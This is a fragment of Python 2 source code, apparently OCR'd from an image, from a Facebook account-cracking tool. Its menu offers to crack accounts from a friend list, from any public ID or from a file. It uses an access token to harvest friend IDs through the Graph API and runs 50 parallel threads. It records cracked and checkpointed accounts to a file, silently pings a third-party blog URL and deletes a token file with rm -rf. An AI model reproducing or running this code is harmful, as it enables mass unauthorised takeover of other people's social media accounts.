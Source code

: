 																	
															
		except:
			pass
		
	p = ThreadPool(50)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : save/checkpoint.txt")
	raw_input("\n[Back]")
	if xxx == '0':
		pak_menu()
	else:
		os.system('python2 .README.md')

def other_menu():
	global toket
	os.system('clear')
	try:
		toket=open('....','r').read()
	except IOError:
		print"[!] Token invalid"
		os.system('rm -rf ....')
		time.sleep(1)
		os.sytem('python2 bn.py')
	os.system('clear')
	print logo
	print "[1] Crack From Friend List"
	print "[2] Crack From Any Public ID"
	print "[3] Crack From File"
	print "[0] Back"
	print 50*"-"
	other_action()

def other_action():
	otb = raw_input("\n  ▄︻̷̿┻̿═━一   ")
	if otb =="":
		print "[!] Fill in correctly"
		other_action()
	elif otb =="1":
		os.system('clear')
		urllib2.urlopen("https://www.google.com/url?sa=t&source=web&rct=j&url=https://trickproof.blogspot.com/%3Fm%3D1&ved=2ahUKEwi87vKb9cPoAhVIxoUKHT2kBMEQFjAAegQIBBAB&usg=AOvVaw1MUpc0kk_u_Dr7q2z48zC1&cshid=1585630324556")
		print logo
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif otb =="2":
		os.system('clear')
		urllib2.urlopen("https://www.google.com/url?sa=t&source=web&rct=j&url=https://trickproof.blogspot.com/%3Fm%3D1&ved=2ahUKEwi87vKb9cPoAhVIxoUKHT2kBMEQFjAAegQIBBAB&usg=AOvVaw1MUpc0kk_u_Dr7q2z48zC1&cshid=1585630324556")
		print logo
		idt = raw_input("[✓] Enter ID : ")
		os.system("clear")
		print logo
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError: